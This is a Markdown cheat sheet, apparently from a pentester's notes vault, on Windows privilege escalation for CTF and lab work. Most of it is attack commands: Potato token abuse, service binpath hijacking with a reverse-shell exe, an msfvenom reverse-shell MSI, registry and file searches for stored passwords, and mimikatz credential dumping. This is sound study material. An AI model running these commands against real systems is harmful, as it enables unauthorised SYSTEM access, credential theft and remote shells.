

# Windows PrivEsc

## Up
- [[Privilege Escalation]]

Escalate from a low-priv Windows user to **SYSTEM/Administrator**. For domain-joined boxes, also see [[Active Directory]]. Abuse of a built-in binary → **LOLBAS**.

---

## Enumerate

```powershell
whoami /priv                 # THE most important — token privileges
whoami /all                  # groups + privileges + SID
systeminfo                   # OS build/patches → wesng / exploit-suggester
net user; net localgroup administrators
```

```cmd
:: automated
winPEASx64.exe                :: or PrivescCheck.ps1, Seatbelt.exe, PowerUp.ps1(Invoke-AllChecks)
```

- **`whoami /priv`** drives the fastest wins (SeImpersonate → potato; SeBackup/SeRestore; SeDebug).
- `systeminfo` + **wesng** (`windows-exploit-suggester`) → missing-patch kernel exploits.

---

## Top Vectors

### 1. Token privileges (the #1 CTF win)
```
SeImpersonatePrivilege / SeAssignPrimaryToken  → *Potato* → SYSTEM
```
- **PrintSpoofer**, **GodPotato**, **JuicyPotatoNG**, **RoguePotato** — abuse impersonation to run as SYSTEM.
```cmd
PrintSpoofer64.exe -i -c cmd        :: or GodPotato -cmd "cmd /c whoami"
```
- `SeBackupPrivilege`/`SeRestorePrivilege` → read SAM/SYSTEM hives or any file.
- `SeDebugPrivilege` → dump LSASS / inject into SYSTEM process.

### 2. Service misconfigurations
```powershell
# unquoted service path with spaces + writable dir → drop malicious exe
wmic service get name,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\"
# weak service binary perms (accesschk) → replace the exe
accesschk.exe -uwcqv "Authenticated Users" *
sc qc <svc>; sc config <svc> binpath= "C:\...\rev.exe"; sc start <svc>
# weak service DACL → change binpath (PowerUp: Invoke-ServiceAbuse)
```

### 3. AlwaysInstallElevated
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
:: both = 1 → msiexec /quiet /i evil.msi (runs as SYSTEM)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=.. LPORT=.. -f msi -o evil.msi
```

### 4. Stored credentials & reuse
```cmd
cmdkey /list                          :: saved creds → runas
reg query HKLM /f password /t REG_SZ /s
dir /s *.config *.xml *.txt | findstr /i pass
type C:\Users\*\AppData\...\unattend.xml sysprep.xml   :: autologon creds
:: Registry autologon:
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
runas /user:administrator cmd          :: with found creds; or use RunasCs.exe
```

### 5. Scheduled tasks
```powershell
schtasks /query /fo LIST /v | findstr /i "TaskName Run Author"
# writable task binary/script run as a higher user → replace it
```

### 6. Kernel / missing patches
```
systeminfo  →  wesng systeminfo.txt   # e.g. older builds → known LPE
# Potato methods usually beat kernel exploits when SeImpersonate is present
```

### Other
- **UAC bypass** (fodhelper, etc.) if you're an admin in a medium-integrity shell.
- **DLL hijacking** — writable dir in a service's DLL search path.
- **Credential dumping** (once admin): `mimikatz sekurlsa::logonpasswords`, dump SAM → feed [[Password Cracking]] / [[Active Directory]].

---

## Flow



---

## Tips

- **Start with `whoami /priv`.** `SeImpersonatePrivilege` (common on web/service accounts) → a potato → instant SYSTEM.
- Transfer tools to `C:\Windows\Temp` or `C:\Users\Public`; pull with `certutil`/`iwr` (see [[Shell Stabilization]]).
- After SYSTEM: dump SAM/LSASS, then pivot — on a domain, go to [[Active Directory]].
- `accesschk.exe` and **PowerUp**'s `Invoke-AllChecks` quickly surface service/registry misconfigs.
